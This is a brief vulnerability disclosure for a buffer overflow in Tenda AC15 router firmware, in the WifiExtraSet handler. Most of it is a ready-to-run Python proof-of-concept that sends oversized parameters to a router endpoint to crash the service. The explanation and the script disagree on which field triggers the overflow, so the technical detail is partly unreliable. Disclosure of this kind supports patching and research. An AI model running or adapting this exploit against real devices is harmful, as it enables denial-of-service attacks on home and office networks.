


## Tenda AC15V15.03.05.19 firmware has a buffer overflow vulnerability in the  WifiExtraSet


Tenda router AC15V15.03.05.19 firmware has a serious buffer overflow vulnerability in the function `fromSetWirelessRepeat`. An attacker can overwrite `tkip_aes` through `strcpy(tkip_aes, tkip_aes_1)` to cause a denial of service attack or even crash the service.

### POC

```py
import requests

def generate_overflow_data():
 
    padding = b"X" * 6
    
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",        
    "ssid": "babyshark",
    "wpapsk_key": "1",
    "security": "wpapsk",
    "wpapsk_type": "wpa&wpa2",
    "wpapsk_crypto": b"a"*0x64,
    "mac": data         
}

   

    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
  
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/WifiExtraSet"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```



